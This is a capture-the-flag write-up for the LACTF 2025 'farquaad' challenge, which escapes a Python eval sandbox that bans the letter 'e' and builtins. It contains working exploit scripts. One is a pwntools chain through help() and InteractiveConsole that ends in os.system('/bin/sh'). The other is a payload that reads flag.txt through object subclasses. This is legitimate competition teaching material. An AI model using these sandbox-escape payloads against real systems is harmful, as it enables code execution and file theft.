 # LACTF 2025 farquaad

```python
#!/usr/local/bin/python3
import string
import html

code = input()

if any(c not in string.printable for c in code):
    print("no tomfoolery!")
    exit()

if "e" in code or "E" in code:
    print("no 'e'!")
    exit()

print(html.escape(repr(eval(code, {"__builtins__": {}}))))
```

Requirements:

1. Only printable characters
2. No `e` or `E`: Use `list(x.__dict__)[index]` to find strings with `e` in it and call it via `x.__dict__[list(x.__dict__)[index]](args)`
3. No builtins: Use `().__class__.__mro__[1].__subclasses__()`

Steps:

1. Find the index of `__subclasses__` in `type.__dict__`
2. Call `().__class__.__mro__[1].__subclasses__()` and find the indices of `<class '_sitebuiltin._Helper'>` and `<class '_sitebuiltin._Printer>` in `().__class__.__mro__[1].__subclasses__()`
3. Enter help() system and load `code` module
4. Find `sys` module via `<class '_sitebuiltin._Printer'>` and call `sys.modules["code"].InteractiveConsole().interact()`

Avoid `e` and `E` by using the `x.__dict__[list(x.__dict__)[index]](args)` trick.

Attack script:

```python
from pwn import *
import html

context(log_level="debug")

# Step 1. Find the index of `__subclasses__` in `type.__dict__`
p = process(["python3", "farquaad.py"])
# find type.__subclasses__
# list(type.__dict__)
# [].__class__: list
# ().__class__.__class__: type
p.sendline(b"[].__class__(().__class__.__class__.__dict__)")
res = p.recvline().decode()
res = html.unescape(res)
subclasses_index = res.split(", ").index("'__subclasses__'")

# Step 2. Call `().__class__.__mro__[1].__subclasses__()`
# and find the indices of `<class '_sitebuiltin._Helper'>` and `<class '_sitebuiltin._Printer>` in `().__class__.__mro__[1].__subclasses__()`
p = process(["python3", "farquaad.py"])
# type.__subclasses__(object)
# type.__subclasses__(().__class__.__mro__[1])
p.sendline(
    (
        "["
        # type
        + "T:=().__class__.__class__,"
        # "__subclasses__"
        + f"S:=[].__class__(T.__dict__)[{subclasses_index}],"
        # type.__subclasses__(object)
        + "T.__dict__[S](().__class__.__mro__[1])"
        + "]"
    ).encode()
)
res = p.recvline().decode()
res = html.unescape(res)

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>") - 2
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>") - 2
print("Helper", helper_index)
print("Printer", printer_index)

# Step 3. Enter help() system and load `code` module
p = process(["python3", "farquaad.py"])
# invoke help()
p.sendline(
    (
        "["
        # type
        + "T:=().__class__.__class__,"
        # "__subclasses__"
        + f"S:=[].__class__(T.__dict__)[{subclasses_index}],"
        # type.__subclasses__(object)[helper_index]()()
        + f"T.__dict__[S](().__class__.__mro__[1])[{helper_index}]()()"
        + "]"
    ).encode()
)
p.recvuntil(b"help> ")
p.sendline(b"code")
p.recvuntil(b"help> ")
# return to farquaad
p.sendline(b"farquaad")

# Step 4. Find `sys` module via `<class '_sitebuiltin._Printer'>`
# and call `sys.modules["code"].InteractiveConsole().interact()`

# launch code.InteractiveConsole().interact()
p.sendline(
    (
        "["
        # type
        + "T:=().__class__.__class__,"
        # "__subclasses__"
        + f"S:=[].__class__(T.__dict__)[{subclasses_index}],"
        # type.__subclasses__(object)[printer_index].__init__.__globals__["sys"]
        + f"sys:=T.__dict__[S](().__class__.__mro__[1])[{printer_index}].__init__.__globals__['sys'],"
        # "modules"
        + "M:=[x for x in sys.__dict__ if x.startswith('modul')][0],"
        # "code"
        + "C:=[x for x in sys.__dict__[M] if x.startswith('cod')][-1],"
        # code module
        + "c:=sys.__dict__[M][C],"
        # "InteractiveConsole"
        + "I:=[x for x in c.__dict__ if 'Consol' in x][0],"
        # "interact"
        + "i:=[x for x in c.__dict__[I].__dict__ if 'ract' in x][0],"
        # code.InteractiveConsole.interact(code.InteractiveConsole())
        + "c.__dict__[I].__dict__[i](c.__dict__[I]()),"
        + "]"
    ).encode()
)
# in interactive shell
p.recvuntil(b">>> ")
p.sendline(b"import os")
p.sendline(b'os.system("/bin/sh")')
p.interactive()
```

[Official writeup](https://github.com/uclaacm/lactf-archive/blob/main/2025/misc/farquaad/solve.py):

```python
import requests

base = "http://localhost:3000"
base = "https://farquaad.chall.lac.tf/"
url = lambda end: f"{base.rstrip('/')}{end}"

# below payload can be typed into web interface
payload = r"""
(o := ().__class__.__mro__[1], g := o.__dict__["__g\x65tattribut\x65__"], g(g(o, "__subclass\x65s__")()[138].__init__.__builtins__["op\x65n"]("flag.txt"), "r\x65ad")())[-1]
""".strip()

r = requests.post(url("/run"), json={"code": payload})
print(r.json()["msg"])
```

Replace `e` with `\x65` in strings:

```python
>>> "\x65"
'e'
```

Attack steps:

1. `o := ().__class__.__mro__[1]`, o is `object`
2. `g := o.__dict__["__g\x65tattribut\x65__"]`, g is `__getattribute__`
3. `g(g(o, "__subclass\x65s__")()[138].__init__.__builtins__["op\x65n"]("flag.txt"), "r\x65ad")()` is `file = __getattribute__(object, "__subclasses__")()[138].__init__.__builtins__["open"]("flag.txt")` and `__getattribute__(file, "read")()`
